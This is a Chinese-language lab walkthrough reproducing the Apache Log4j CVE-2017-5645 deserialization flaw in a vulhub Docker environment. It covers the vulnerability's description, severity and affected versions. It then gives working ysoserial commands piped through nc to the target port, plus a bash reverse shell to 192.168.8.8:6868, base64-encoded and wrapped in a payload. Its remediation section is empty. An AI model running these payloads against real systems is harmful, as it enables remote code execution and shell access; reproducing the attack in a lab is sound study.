






# Apache Log4j Server 反序列化命令执行漏洞（CVE-2017-5645）


### 1.1、漏洞描述

攻击者可以通过发送一个特别制作的2进制payload，在组件将字节反序列化为对象时，触发并执行构造的payload代码。该漏洞主要是由于在处理ObjectInputStream时，接收函数对于不可靠来源的input没有过滤。可以通过给TcpSocketServer和UdpSocketServer添加可配置的过滤功能以及一些相关设置，可以有效的解决该漏洞。


### 1.2、漏洞等级

漏洞危害评分：7.5，攻击者可利用该漏洞执行任意代码。

### 1.3、影响版本

 Apache Log4j 2.8.2之前的2.x版本

### 1.4、漏洞复现

#### 1、基础环境

kali环境IP地址：192.168.8.8

Path：vulhub/log4j/CVE-2017-5645

---

启动测试环境：

```bash
sudo docker-compose up -d
```


#### 2、漏洞扫描

#### 3、漏洞验证

扫描目标开启的端口



> ysoserial是在常见的java库中发现的一组实用程序和面向属性的编程“小工具链”，在适当的条件下，可以利用执行对象不安全反序列化的Java应用程序。主驱动程序接受用户指定的命令，并将其封装在用户指定的小工具链中，然后将这些对象序列化为stdout。当类路径上具有所需小工具的应用程序不安全地反序列化该数据时，将自动调用该链并导致在应用程序主机上执行该命令。
>
> ysoserial项目地址：
>
> https://github.com/frohoff/ysoserial

下载打包好的jar文件到我们的kali主机上



```java
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/saury" | nc 192.168.8.8 4712
```



### 1.5、深度利用

#### 1、反弹Shell

```bash
bash -i >& /dev/tcp/192.168.8.8/6868 0>&1
```

将反弹shell进行[base64编码](https://base64.us/)



```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguOC82ODY4IDA+JjE=
```

shell反弹

```bash
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguOC82ODY4IDA+JjE=}|{base64,-d}|{bash,-i}" | nc 192.168.8.8 4712
```






### 1.6、修复建议